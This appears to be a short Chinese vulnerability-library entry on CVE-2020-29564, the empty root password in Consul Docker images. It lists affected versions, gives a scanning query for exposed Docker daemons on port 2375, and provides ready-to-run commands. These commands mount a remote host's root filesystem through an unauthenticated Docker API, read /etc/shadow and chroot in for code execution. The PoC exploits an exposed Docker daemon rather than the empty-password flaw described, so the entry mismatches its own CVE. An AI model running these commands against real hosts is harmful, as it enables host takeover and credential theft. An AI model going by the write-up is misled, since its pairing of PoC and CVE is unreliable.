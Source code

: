 # Consul Docker images 空密码登录漏洞 CVE-2020-29564

# Consul Docker images 空密码登录漏洞 CVE-2020-29564

## 漏洞描述

Consul Docker images 0.7.1至1.4.2版本部署的Consul Docker容器的系统，可能允许远程攻击者使用空白密码来实现root用户访问。

参考链接：

- https://github.com/koharin/CVE/blob/main/CVE-2020-29564

## 漏洞影响

```
Consul Docker images 0.7.1-1.4.2
```

## 网络测绘

```
port="2375" && protocol=="docker"
```

## 漏洞复现

poc：

```
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

File Access: cat /mnt/etc/shadow
RCE: chroot /mnt
```


